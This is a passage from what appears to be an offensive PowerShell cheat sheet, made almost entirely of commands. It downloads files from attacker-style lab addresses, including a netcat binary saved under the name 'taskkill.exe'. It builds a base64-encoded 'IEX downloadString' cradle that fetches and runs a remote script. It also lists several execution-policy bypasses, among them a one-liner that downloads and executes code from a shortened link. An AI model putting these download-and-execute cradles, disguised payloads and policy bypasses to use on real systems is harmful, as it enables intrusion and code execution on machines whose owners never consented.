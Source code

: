 ### Invoke-WebRequest

```text
Invoke-WebRequest "http://10.10.14.2:80/taskkill.exe" -OutFile "taskkill.exe"
```

### Wget

```text
wget "http://10.10.14.2/nc.bat.exe" -OutFile "C:\ProgramData\unifivideo\taskkill.exe"
```

### BitsTransfer

```text
Import-Module BitsTransfer
Start-BitsTransfer -Source $url -Destination $output
# OR
Start-BitsTransfer -Source $url -Destination $output -Asynchronous
```

## Base64 Kali & EncodedCommand

```bash
kali> echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.9:8000/9002.ps1')" | iconv --to-code UTF-16LE | base64 -w0
PS> powershell -EncodedCommand <Base64>
```

## Execution Policy

By default it is set to **restricted.** Main ways to bypass this policy:

```text
1º Just copy and paste inside the interactive PS console
2º Read en Exec
Get-Content .runme.ps1 | PowerShell.exe -noprofile -
3º Read and Exec
Get-Content .runme.ps1 | Invoke-Expression
4º Use other execution policy
PowerShell.exe -ExecutionPolicy Bypass -File .runme.ps1
5º Change users execution policy
Set-Executionpolicy -Scope CurrentUser -ExecutionPolicy UnRestricted
6º Change execution policy for this session
Set-ExecutionPolicy Bypass -Scope Process
7º Download and execute:
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('http://bit.ly/1kEgbuH')"
8º Use command switch
Powershell -command "Write-Host 'My voice is my passport, verify me.'"
9º Use EncodeCommand
$command = "Write-Host 'My voice is my passport, verify me.'" $bytes = [System.Text.Encoding]::Unicode.GetBytes($command) $encodedCommand = [Convert]::ToBase64String($bytes) powershell.exe -EncodedCommand $encodedCommand
```
